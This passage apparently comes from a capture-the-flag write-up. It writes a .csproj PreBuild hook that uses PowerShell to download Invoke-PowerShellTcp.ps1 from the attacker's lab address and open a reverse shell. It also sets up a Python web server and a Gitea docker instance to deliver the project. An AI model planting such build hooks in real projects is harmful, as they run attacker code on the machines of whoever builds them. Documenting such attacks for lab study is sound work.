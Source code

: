 ```
python3 -m http.server 80
```

next we update the **Dotnet_project.csproj** file to the following to include our **PreBuildEvent**

```
<Project Sdk="Microsoft.NET.Sdk">

  <PropertyGroup>
    <OutputType>Exe</OutputType>
    <TargetFramework>net6.0</TargetFramework>
    <ImplicitUsings>enable</ImplicitUsings>
    <Nullable>enable</Nullable>
  </PropertyGroup>


  <Target Name="PreBuild" BeforeTargets="PreBuildEvent">
    <Exec Command="powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.14.91/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.91 -Port 443" />
  </Target>


</Project>
```

So now we have an exploit the next step is to setup our gitea server so we can serve this.

```

#### Gitea
Next up we'll setup a gitea server using docker. using the following docker compose file we are able to spin up a working gitea server

```bash
version: "3"

networks:
  gitea:
    external: false

services:
  server:
    image: gitea/gitea:1.21.3
    container_name: gitea
    environment:
      - USER_UID=1000
      - USER_GID=1000
    restart: always
    networks:
      - gitea
    volumes:
      - ./gitea:/data
      - /etc/timezone:/etc/timezone:ro
      - /etc/localtime:/etc/localtime:ro
    ports:
      - "3000:3000"
      - "222:22"
```
